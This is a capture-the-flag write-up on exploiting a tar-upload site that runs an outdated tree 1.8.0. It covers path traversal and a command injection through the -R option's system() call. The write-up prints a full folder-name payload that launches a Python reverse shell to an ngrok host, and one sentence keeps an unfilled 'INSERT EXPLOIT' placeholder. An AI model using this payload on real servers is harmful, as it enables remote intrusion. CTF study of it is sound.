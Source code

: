 # PWN: Stumped
solver: [N04M1st3r](https://github.com/N04M1st3r)  
writeup-writer: [L3d](https://github.com/imL3d)  

**Description:**
> Michael's computer science project shows the structure of tar files. It is using the tree command on the backend, and something just doesn't seem right...

**files (copy):** [app.py](files/app.py)  
**screenshot:** [homepage](images/stumpedhome.png)

In this challenge we receive a site (and it's code) that runs the unix [tree](https://linux.die.net/man/1/tree) command on an uploaded tar archive. We need to exploit this site and get user access.

## Solution 🌳
When uploading a tar archive to the site to extract, we can write to anywhere on our system via carefully naming our folders. For example, if we have an archive with the path in it (the folder names are `..`): `../../../folder1/file1.txt` we can write into a folder called `folder1` that is 3 directories above us. This is due to INSERT EXPLOIT.  
Our first attempt of breaching this machine was to try and override some important file, in order to get and RCE or expose this machine to the internet. This was incredibly difficult since we didn't really have any information whatsoever on where this code was running from, or what with what privileges - so we abandoned the idea.  
  
After messing around a bit more with the site we noticed something about the text on it - it was powered via the `tree` command on version `1.8.0` - could it be that the version of tree is outdated and we can somehow exploit this???  
So, the search for the source code of this version began (or at least the release notes). Finding the entire source code was surprisingly difficult, but we managed to find it at the end -  [the source code](https://salsa.debian.org/debian/tree-packaging).  
  
 Looking at the changelog of the version that followed `1.8.0`:
 ```
  - -R option now recursively calls the emit_tree() function rather than using
 system() to re-call tree.  Also removes a TODO.
 ```
 BINGO! the `-R` option uses `system`, and we can exploit that to inject our OWN bash code.  
 This can be easily seen when looking at the code from the old version: 
 ```C
hcmd = xmalloc(sizeof(char) * (49 + strlen(host) + strlen(d) + strlen((*dir)->name)) + 10 + (2*strlen(path)));
sprintf(hcmd,"tree -n -H \"%s%s/%s\" -L %d -R -o \"%s/00Tree.html\" \"%s\"\n", host,d+1,(*dir)->name,Level+1,path,path);
system(hcmd);
``` 
  
In order to exploit this we need to name one of our inside folders in the archive in a special way, to include the code that we want to run on the server (we went with a python reverse shell in this case):  
```
In a tar folder, zip the following:

folder1->folder2->(injection folder)
injection folder name (the quotes are part of the name): ";python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.eu.ngrok.io",16642));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["x2fbinx2fsh","-i"]);' ;echo "
```
We we upload the tar archive with this folder we get a reverse shell, and then quickly after the flag🚩:
```
$ cat flag.txt
flag{n0t_5tump3d_4nym0r3!}
```
---
This was a creative challenge that reminded us about updating our versions and not letting strangers upload tar archives into our servers.  
Also props to  [N04M1st3r](https://github.com/N04M1st3r) for having the motivation to pull this one off ;)
  
![isitpwn.gif](images/isitpwn.gif)
